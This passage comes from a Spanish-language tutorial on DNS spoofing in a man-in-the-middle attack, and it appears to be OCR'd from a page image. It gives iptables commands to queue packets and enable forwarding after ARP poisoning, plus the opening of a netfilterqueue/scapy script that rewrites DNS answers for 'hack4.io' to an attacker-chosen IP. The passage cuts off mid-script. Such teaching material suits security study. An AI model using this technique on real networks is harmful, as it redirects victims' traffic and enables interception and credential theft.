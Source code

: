    Esta regla le indica a iptables que inserte todos los paquetes de entrada en la cola número 0 de Netfilter.

2. **Permitir el reenvío de paquetes**:
   
   Si estamos realizando un ataque de envenenamiento ARP (que es necesario para los ataques MITM), también necesitaremos permitir que los paquetes se reenvíen a través de nuestra máquina, para lo cual cambiamos la política de reenvío en iptables:
   
   ```bash
   iptables --policy FORWARD ACCEPT
   ```

---

### Instalación de `netfilterqueue`

Antes de poder escribir y ejecutar nuestro script, debemos instalar la biblioteca `netfilterqueue`:

```bash
pip3 install netfilterqueue
```

---

### Creación del script `dns_spoof.py`

Ahora, crearemos un script que nos permitirá interceptar paquetes DNS y redirigir solicitudes específicas a la IP de nuestra máquina.

1. **Crear el archivo `dns_spoof.py`**:
   
   Utilizaremos las bibliotecas `netfilterqueue` y `scapy` para este script. El propósito es interceptar solicitudes DNS y modificar las respuestas, de modo que cuando la víctima trate de acceder a un dominio específico, como "hack4.io", se le redirija a una dirección IP falsa (nuestra IP o cualquier IP que especifiquemos).

   El código del script es el siguiente:

```python
#!/usr/bin/python3

import netfilterqueue
import scapy.all as scapy
import signal
import sys

# Función para manejar la interrupción del script (Ctrl+C)
def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Función para procesar los paquetes interceptados
def process_packet(packet):
    # Convertimos el paquete de la cola en un paquete Scapy
    scapy_packet = scapy.IP(packet.get_payload())

    # Verificamos si el paquete contiene una respuesta DNS
    if scapy_packet.haslayer(scapy.DNSRR):
        # Extraemos el nombre de la consulta DNS
        qname = scapy_packet[scapy.DNSQR].qname

        # Si el dominio solicitado es "hack4.io", lo envenenamos
        if b"hack4.io" in qname:
            print(f"\n[+] Envenenando el dominio hack4.io")

            # Modificamos la respuesta DNS para redirigir a la IP 1.2.3.4
```